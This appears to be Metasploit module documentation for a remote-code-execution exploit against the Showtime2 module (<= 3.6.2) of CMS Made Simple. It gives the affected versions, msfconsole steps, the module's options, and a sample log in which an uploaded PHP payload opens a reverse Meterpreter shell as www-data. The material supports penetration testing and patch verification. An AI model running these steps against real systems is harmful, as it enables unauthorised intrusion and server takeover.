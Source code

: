## Description

This module exploits a File Upload vulnerability that lead in a RCE in Showtime2 module (<= 3.6.2) in CMS Made Simple (CMSMS). An authenticated user with "Use Showtime2" privilege could exploit the vulnerability.

The vulnerability exists in the Showtime2 module, where the class "class.showtime2_image.php" does not ensure that a watermark file has a standard image file extension (GIF, JPG, JPEG, or PNG).

Tested on Showtime2 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2 on CMS Made Simple (CMSMS) 2.2.9.1 and 2.2.10

## Vulnerable Application

Affecting Showtime2 CMS Made Simple (CMSMS) module, version 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. Download Showtime2 module (< 3.6.3)
3. Log-in to admin panel with the administrator credentials
4. Go in *site admin* => *Module Manager* and import the Showtime2 module
5. Once the module is uploaded, click on *install* to install the module
6. [OPTIONALLY] setting up a new user, assign it to a group and set the *Use Showtime2* permissions on group
7. Start `msfconsole`
8. `use exploit/multi/http/cmsms_showtime2_rce`
9. `set RHOST <IP>`
10. `set USERNAME <USERNAME>`
11. `set PASSWORD <PASSWORD>`
12. `check`
13. You should see `The target appears to be vulnerable.`
14. `exploit`
15. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenarios

### Tested on Showtime 3.6.2 on CMS Made Simple (CMMS) 2.2.10

```
msf5 > use exploit/multi/http/cmsms_showtime2_rce 
msf5 exploit(multi/http/cmsms_showtime2_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/cmsms_showtime2_rce) > check

[*] Showtime2 version: 3.6.2
[*] 192.168.2.59:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_showtime2_rce) > set username Designer
username => Designer
msf5 exploit(multi/http/cmsms_showtime2_rce) > set password d3s1gn3r
password => d3s1gn3r
msf5 exploit(multi/http/cmsms_showtime2_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[*] Showtime2 version: 3.6.2
[*] Uploading PHP payload.
[*] Making request for '/06wp7Fen.php' to execute payload.
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:59932) at 2019-03-19 23:27:07 +0100
[!] Tried to delete ./06wp7Fen.php, unknown result

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_showtime2_rce) > 
```
